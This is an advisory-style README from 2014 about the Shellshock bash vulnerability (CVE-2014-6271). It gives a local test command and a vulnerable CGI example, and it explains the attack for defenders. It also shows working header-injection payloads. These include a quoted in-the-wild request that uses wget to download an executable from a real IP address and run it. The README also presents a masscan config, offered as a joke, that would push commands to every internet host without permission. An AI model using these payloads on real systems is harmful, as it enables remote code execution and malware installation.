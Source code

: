 CVE-2014-6271
===

For up-to-date information on this vulnerability as this situation evolves make sure to to give us a follow on twitter: [@CriticalStack](https://twitter.com/criticalstack).  

Come see [@Hectaman](https://twitter.com/hectaman) speak this Sunday September 28, 2014 at 4:00 pm at [Derbycon 2014](https://www.derbycon.com/schedule/)
)


[1. Overview](#overview)

[2. HTTP Header](#httpheader)

[3. #koopa_troopa](#koopa_troopa)

[4. With great power...](#power)

[5. Thanks](#thanks)

<a name="overview"></a>
##1. Overview
===

[CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) is a real nasty one; this vulnerability is in one of those pervasive pieces of software that comes with nearly every unixy type device- the [bash](http://tiswww.case.edu/php/chet/bash/bashtop.html), the Bourne-Again SHell.  Let's test to see if your servers|workstations|internet-of-things is vulnerable:

Open a shell and paste:
```
env x='() { :;}; echo vulnerable' bash -c 'echo hello'
```

If you are not vulnerable, then the following will be shown:
```
bash: warning: x: ignoring function definition attempt
bash: error importing function definition for `x'
hello
```
If you are vulnerable, then you will see:
```
vulnerable
hello
```

If you are vulnerable you should update your device immediately.  I have a feeling that this is the kind of exploit that is going to start cropping up in a large variety of cases and other protocols. I'll try to keep this updated to detect the various methods as the situation evolves.

<a name="httpheader"></a>
##2. HTTP Header Attack
===


First POC is out- attempting to attack bash based cgi scripts; [internet wide scans](http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html) have been kicked off and I expect to see this genuinely weaponized before the evening is out. 

Let's explore what is happening a little further here; a vulnerable piece of code will look something like this:

```
#!/bin/bash

echo Content-type: text/html
echo ""

/bin/cat << EOM
<HTML>
<HEAD><TITLE>File Output: /home/user1/public_html/text-file.txt </TITLE>
</HEAD>
<BODY bgcolor="#cccccc" text="#000000">
<P>
<SMALL>
<PRE>
EOM

/bin/env

CAT << EOM
</PRE>
</SMALL>
<P>
</BODY>
</HTML>
EOM
```
[source](http://www.yolinux.com/TUTORIALS/LinuxTutorialCgiShellScript.html) 

This piece of code will output something like this:
```
<HTML>
<HEAD><TITLE>File Output: /home/user1/public_html/text-file.txt </TITLE>
</HEAD>
<BODY bgcolor="#cccccc" text="#000000">
<P>
<SMALL>
<PRE>
SERVER_SIGNATURE=
Apache/2.0.40 Server at localhost Port 80


UNIQUE_ID=DErk6n8AAAEAAAblFQEAAAAD
HTTP_USER_AGENT=Mozilla/4.8 [en] (X11; U; Linux 2.4.18-27.8.0 i586)
SERVER_PORT=80
HTTP_HOST=localhost
DOCUMENT_ROOT=/var/www/html
HTTP_ACCEPT_CHARSET=iso-8859-1,*,utf-8
SCRIPT_FILENAME=/var/www/cgi-bin/env.sh
REQUEST_URI=/cgi-bin/env.sh
SCRIPT_NAME=/cgi-bin/env.sh
HTTP_CONNECTION=Keep-Alive
REMOTE_PORT=32984
PATH=/sbin:/usr/sbin:/bin:/usr/bin:/usr/X11R6/bin
PWD=/var/www/cgi-bin
SERVER_ADMIN=root@localhost
HTTP_ACCEPT_LANGUAGE=en
HTTP_ACCEPT=image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
REMOTE_ADDR=127.0.0.1
SHLVL=1
SERVER_NAME=localhost
SERVER_SOFTWARE=Apache/2.0.40 (Red Hat Linux)
QUERY_STRING=
SERVER_ADDR=127.0.0.1
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.0
HTTP_ACCEPT_ENCODING=gzip
REQUEST_METHOD=GET
_=/bin/env
</PRE>
</SMALL>
<P>
</BODY>
</HTML>
```

[mod_cgi](http://httpd.apache.org/docs/2.2/mod/mod_cgi.html) takes all of the HTTP header fields and passes them to the bash script as environment variables for execution.  And you know that the **remote** party, the *connection originator* controls all of the client headers...  Really this is as simple as just using curl:

```
curl -k -H 'User-Agent: () { :;}; /bin/ping -c1  XXX.XXX.XXX.XXX' http://127.0.0.1/cgi-bin/hi
``` 

And of course, you don't need to use a common field, such as the **user-agent**- any field will work!  So far we have not seen or been able to get a URL encoded version of this exploit to work- however, I expect to see significant "innovation" in this space.  More to come.


<a name="koopa_troopa"></a>
##3. #koopa_troopa aka #goomba (thanks [@mubix](https://twitter.com/mubix) )
===

So it didn't take long for the first of many exploits to break; earlier today this started circulating:

```
GET./.HTTP/1.0
.User-Agent:.Thanks-Rob
.Cookie:().{.:;.};.wget.-O./tmp/besh.http://162.253.66.76/nginx;.chmod.777./tmp/besh;./tmp/besh;
.Host:().{.:;.};.wget.-O./tmp/besh.http://162.253.66.76/nginx;.chmod.777./tmp/besh;./tmp/besh;
.Referer:().{.:;.};.wget.-O./tmp/besh.http://162.253.66.76/nginx;.chmod.777./tmp/besh;./tmp/besh;
.Accept:.*/*
 
$ file nginx 
nginx: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.18, stripped
 
$ md5sum nginx 
5924bcc045bb7039f55c6ce29234e29a  nginx
 
$ sha256sum nginx 
73b0d95541c84965fa42c3e257bb349957b3be626dec9d55efcc6ebcba6fa489  nginx
 
Looking at string variables, it appears to be a kernel exploit with a CnC component.
- found by @yinettesys
```

[Source](https://gist.github.com/anonymous/929d622f3b36b00c0be1)

Thanks to [@yinettesys](https://twitter.com/yinettesys) for sharing!


<a name="power"></a>
##4. With great power...
===


[Matt Kelley](https://twitter.com/breakersall) [jokes today](https://gist.github.com/anonymous/929d622f3b36b00c0be1) that he's that hoping someone man/womans up and becomes the Internet Fairy today:

```
#InfoSec good dead fairy
#Original from shellshock-scan (http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html)
target = 0.0.0.0/0
port = 80
banners = true
http-user-agent = InfosecFairy
http-header = Cookie:() { :; }; apt-get update -y; apt-get upgrade -y; yum update bash -y
http-header = Host:() { :; }; apt-get update -y; apt-get upgrade -y; yum update bash -y
http-header = Referer:() { :; }; apt-get update -y; apt-get upgrade -y; yum update bash -y
```

[Source](https://gist.github.com/breakersall/9f5250f76295626d6e12)

Hilarious- you can follow [Matt Kelley](https://twitter.com/breakersall) on the twitters.

:)

<a name="thanks"></a>
##5. Thanks
===

Thanks to [@hackerplaybook](https://twitter.com/hackerplaybook) for the help testing.  Give him (and Me- [@Hectaman](https://twitter.com/hectaman)) a follow!

Thanks to [Matt Kelley](https://twitter.com/breakersall) for the lulz.

Thanks to [@yinettesys](https://twitter.com/yinettesys) for being the first spotter!